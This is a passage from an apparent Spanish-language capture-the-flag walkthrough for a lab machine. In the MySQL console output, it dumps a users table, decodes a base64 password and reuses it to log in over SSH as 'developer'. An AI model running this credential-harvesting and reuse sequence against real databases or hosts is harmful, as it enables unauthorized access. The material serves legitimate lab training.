 ```console
| mysql              |    
| performance_schema |    
| sys                |    
| whackywidget       |  
+--------------------+
6 rows in set (0.112 sec)                                                                                                                             
                                                                                             
MySQL [grafana]> use whackywidget;                                                           
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
                                                                                             
Database changed        
MySQL [whackywidget]> show tables;
+------------------------+                                                                                                                                                                 
| Tables_in_whackywidget |                  
+------------------------+                  
| users                  |                  
+------------------------+               
1 row in set (0.105 sec)
                                              
MySQL [whackywidget]> SELECT * FROM users;                                                    
+-----------+------------------------------------------+
| user      | pass                                     |         
+-----------+------------------------------------------+      
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+

MySQL [whackywidget]> SELECT user, FROM_BASE64(pass) FROM users\G
*************************** 1. row ***************************
             user: developer
FROM_BASE64(pass): anEnglishManInNewYork027468
```

Ahora recordamos el mensaje de antes sobre que podemos conectarnos por **SSH** como el usuario `developer` y conseguimos entrar al sistema:

```console
❯ ssh developer@10.10.11.183
The authenticity of host '10.10.11.183 (10.10.11.183)' can't be established.
ED25519 key fingerprint is SHA256:zXkkXkOCX9Wg6pcH1yaG4zCZd5J25Co9TrlNWyChdZk.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.183' (ED25519) to the list of known hosts.
developer@10.10.11.183's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 23 Nov 2022 11:02:22 PM UTC

  System load:  0.02              Processes:             229
  Usage of /:   81.5% of 5.07GB   Users logged in:       0
  Memory usage: 55%               IPv4 address for eth0: 10.10.11.183
  Swap usage:   0%


0 updates can be applied immediately.


The list of available updates is more than a week old.
```